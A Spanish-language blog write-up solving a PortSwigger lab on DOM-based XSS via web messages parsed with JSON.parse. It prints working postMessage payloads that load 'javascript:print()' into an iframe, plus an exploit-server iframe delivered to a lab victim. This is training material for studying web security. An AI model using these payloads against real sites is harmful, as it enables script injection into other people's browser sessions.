 ```yaml
---
title: DOM XSS using web messages and JSON.parse
description: Laboratorio de Portswigger sobre DOM Based
date: 2025-01-19 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - DOM Based
tags:
  - Portswigger Labs
  - DOM Based
  - DOM XSS using web messages and JSON.parse
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza `mensajes web` y analiza el `mensaje` como `JSON`. Para `resolver` el `laboratorio`, debemos construir una página `HTML` en el `servidor de exploits` que `explote` esta `vulnerabilidad` y llame a la función `print()`

---

## Guía de DOM based vulnerabilities

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de DOM based vulnerabilities` [https://justice-reaper.github.io/posts/DOM-Based-Vulnerabilities-Guide/](https://justice-reaper.github.io/posts/DOM-Based-Vulnerabilities-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/DOM-Based-Lab-3/image_1.png)

Me llama la atención la `carga` del `objeto`, si `inspeccionamos` el `código fuente` vemos que la `ventana` tiene un `listener` y si `enviamos` un `mensaje` este se `mostrará` en la `web`

![](/assets/img/DOM-Based-Lab-3/image_2.png)

Para `enviar` un `mensaje` podemos usar `window.postMessage`, el `mensaje` debe `contener` un `string` en `formato JSON`. Al proporcionar los parámetros `type: 'load channel'` y `url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'` el script nos crea un `iframe` cuya `url` es la proporcionada

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/'}));
```

![](/assets/img/DOM-Based-Lab-3/image_3.png)

Como nos esta `cargando` una `url` podemos usar `javascript:print()` para `ejecutar código` JavaScript

```
window.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}));
```

![](/assets/img/DOM-Based-Lab-3/image_4.png)

A continuación nos vamos al `exploit server` e `insertamos` este `payload`. Este `payload` nos `carga` la `url` de la `web vulnerable` y `cuando se ha cargado enviamos un mensaje con el payload desde dentro del iframe`

```
<iframe src="https://0afc00da04b221f285fd3b08005c00c2.web-security-academy.net/" onload="this.contentWindow.postMessage(JSON.stringify({type: 'load-channel', url: 'javascript:print()'}), '*')">
```

Si pulsamos sobre `View exploit` se nos `cargará` el `iframe` y también se mostrará un `print()`. Si pulsamos en `Deliver exploit to victim` estaremos enviando a la víctima la `url` de nuestro servidor `https://exploit-0a9b002b0485218685773a2501aa0098.exploit-server.net/exploit` en el cual `alojamos` el `exploit`

![](/assets/img/DOM-Based-Lab-3/image_5.png)
